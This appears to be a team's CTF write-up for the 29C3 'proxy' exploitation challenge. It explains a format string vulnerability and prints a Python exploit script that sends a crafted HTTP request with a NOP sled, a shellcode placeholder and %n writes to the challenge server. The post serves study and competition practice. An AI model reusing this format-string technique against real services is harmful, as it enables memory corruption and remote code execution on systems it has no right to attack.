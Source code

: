 ```yaml
---
title: 29C3 CTF Exploitation 400 proxy
author: kelwin
layout: post
permalink: /29c3-ctf-exploitation-400-proxy/
categories:
  - CTF
  - writeup
---
```

Hellok and I worked on this challenge for a quite long time. We failed to solve this challenge though, we exploit the format string vulnerability successfully.

We spent a lot of time looking for methods to bypass PAM authentication and neglect the quite obvious format string vulnerability.

Let&#8217;s first look at the stack layout:

![proxy_stack][1]

We can see the pointer &#8220;format&#8221; will be overwritten in the lowest 3 bytes.

![proxy_exploit2][2]

Format string vulnerability is here.

![proxy_exploit][3]

To exploit such format string, we first get some stack address exposed using &#8220;%x&#8221; format of printf. Code for exploitation is as follows:

    import socket  
    import time  
    import base64  
    import random  
    import struct
    
    shellcode = # We tried several 71 bytes shellcode and succeeded in our local environment 
    
    IP = "94.45.252.240"
    PORT = 1024
    
    buf = 'GET '
    buf += '/'
    buf += ' HTTP/1.1'
    buf += 'Authorization: Basic '
    authkey=base64.b64encode('n:1')
    buf += authkey
    buf += "a\x78\xf7\xff\xbf\x79\xf7\xff\xbf\x7a\xf7\xff\xbf\x7b\xf7\xff\xbf"
    buf += "\x90"*250
    buf += shellcode
    buf += "\x90"*50
    buf += "%117x%165$n%253x%166$n%10x%167$n%192x%168$n"
    buf += "." * (508-len(buf))
    buf += "\x94\xf5"
    print "*****************"
    print "buf len = ", len(authkey)
    print "buf len = ", len(buf)
    
    s = socket.socket()
    s.connect((IP, PORT))
    s.send(buf)
    print s.recv(10000)
    

We didn&#8217;t understand SECCOMP_FILTER well so we failed to execute shellcode in remote server. According to other writeups, we know that the key is hided in the cache which can be easily captured using &#8220;%s&#8221; format of printf.

 [1]: http://www.blue-lotus.net/wp-content/uploads/2013/01/proxy_stack.jpg
 [2]: http://www.blue-lotus.net/wp-content/uploads/2013/01/proxy_exploit2.jpg
 [3]: http://www.blue-lotus.net/wp-content/uploads/2013/01/proxy_exploit.jpg